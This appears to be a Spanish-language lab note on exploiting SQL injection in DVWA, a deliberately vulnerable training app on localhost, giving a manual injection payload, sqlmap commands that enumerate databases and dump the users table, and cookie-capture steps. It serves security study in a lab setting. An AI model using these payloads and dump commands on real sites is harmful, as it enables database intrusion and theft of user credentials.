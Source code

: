 # 🔍 Explotación: SQL Injection (Low)

## 1️⃣ Identificación manual

URL vulnerable:

```Http
http://127.0.0.1:8080/vulnerabilities/sqli/?id=1
```

Payload básico:

```Http
?id=1' OR '1'='1&Submit=Submit#
```

Resultado esperado: listado de usuarios.

## 2️⃣ Enumerar bases de datos con sqlmap

```bash
sqlmap -u "http://127.0.0.1:8080/vulnerabilities/sqli/?id=1" \
       --cookie="PHPSESSID=abc123xyz456; security=low" \
       --dbs
```

## 3️⃣ Ver tablas en la base dvwa

```bash
sqlmap -u "http://127.0.0.1:8080/vulnerabilities/sqli/?id=1" \
       --cookie="PHPSESSID=abc123xyz456; security=low" \
       -D dvwa --tables
```

## 4️⃣ Extraer datos de la tabla users

```bash
sqlmap -u "http://127.0.0.1:8080/vulnerabilities/sqli/?id=1" \
       --cookie="PHPSESSID=abc123xyz456; security=low" \
       -D dvwa -T users --dump
```

### 🍪 ¿Cómo obtener la cookie PHPSESSID?

#### 🔹 Opción 1: Desde navegador

1. F12 → pestaña **Storage/Application**.
2. Buscar cookies de http://127.0.0.1:8080.
3. Copiar valor de PHPSESSID.

#### 🔹 Opción 2: Desde terminal

```bash
curl -i http://127.0.0.1:8080/login.php
```

Buscar línea:

```Http
Set-Cookie: PHPSESSID=abcdef1234567890; path=/
```

## 📸 Documentación de evidencias

- Guardar respuestas HTTP:

```bash
curl -s -D ~/Pentesting/DVWA/requests/sqli_login.headers \
     -o ~/Pentesting/DVWA/requests/sqli_login.html \
     "http://127.0.0.1:8080/vulnerabilities/sqli/?id=1' OR '1'='1&Submit=Submit#"
```

- Capturas de pantalla: usar ***flameshot gui*** y guardar en screens/.
